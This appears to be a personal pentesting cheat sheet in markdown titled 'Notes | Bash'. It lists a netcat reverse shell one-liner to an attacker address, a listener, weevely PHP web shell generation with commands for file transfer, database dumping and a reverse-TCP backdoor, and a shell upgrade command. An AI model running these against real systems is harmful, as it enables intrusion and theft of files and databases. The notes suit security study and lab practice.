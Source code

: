 ```yaml
---
title: Notes | Bash
author: Zeropio
date: 2022-04-25
categories: [Notes, System]
tags: [bash, linux]
permalink: /notes/system/bash
---
```


# Reverse Shell
If we can execute code in the victim:
```console
... nc -e /bin/sh <ip$ <port$
```

While in the attacker:
```console
$ nc -lvnp <port$
```

## weevely
To generate a shell:
```console
$ weevely generate [password] /home/kali/shell.php
$ weevely http://ip/shell.php [password]
```

We can use **:help** inside the weevely shell to get some functions. We can use **-h** in the weevely function to access more options.
Sometimes we wouldn't be able to execute commands, weevely can help us:
```console
$ :shell_sh -v [option] [command]
```

Some other options are:
- **:file_download [remotepath] [localpath]**: download files
- **:file_upload [localpath] [remotepath]**: upload files
- **:file_read [localpath]**: read a file
- **:sql_console**
- **:sql_dump -host [ip] -lpath [localpath].txt [user] [password]**: dump a db into a file (if the db doesn't have a password we should use **''** instead).
- **:backdoor_reversetcp [lhost] [lport]**: create a reverse shell (we need to add a **;** after each command).
##### If any option doesn't work we can use **-vector [option]** to change the attack.

---

# After a reverse shell...
We can get a interactive shell with the following command:
```console
$ script /dev/null -c bash
```
